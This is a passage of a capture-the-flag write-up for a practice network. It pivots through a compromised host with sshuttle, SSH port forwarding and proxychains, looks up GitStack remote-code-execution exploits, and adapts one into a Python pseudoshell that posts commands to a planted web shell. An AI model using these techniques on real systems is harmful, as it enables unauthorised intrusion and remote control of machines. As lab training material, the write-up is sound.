 #### sshutle

```bash
kali㉿kali-[~/thm/wreath]$ sshuttle -r root@10.200.186.200 --ssh-cmd "ssh -i id_rsa" 10.200.186.0/24 -x 10.200.186.200
```

#### SSH local port forwarding

Using port forwarding we can access the web server which host `Gitstack` application

```bash
kali㉿kali-[~/thm/wreath]$ ssh -L 8080:localhost:80 -i id_rsa root@10.200.186.200 -fN
```

#### SSH dynamic port forwarding / proxychains

or using dynamic port forwarding with proxychains or foxypoxy.

dynamic port forwarding

```bash
kali㉿kali-[~/thm/wreath]$ ssh -D 1337 -i id_rsa root@10.200.186.200 -fN
```

proxychains

```bash
socks4	127.0.0.1 1337
```

searching in exploit-db we found that the application is vulnerable to (RCE)

```
kali㉿kali-[~]$ searchsploit gitstack
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
GitStack - Remote Code Execution                                                      | php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                    | windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                               | php/webapps/43777.py
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I then copied the exploit file and adapt it to run pseudoshell

```python
print "[+] Pseudoshell "
while True:
    r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : raw_input("$ ")})
    print r.text.encode(sys.stdout.encoding, errors='replace')
```
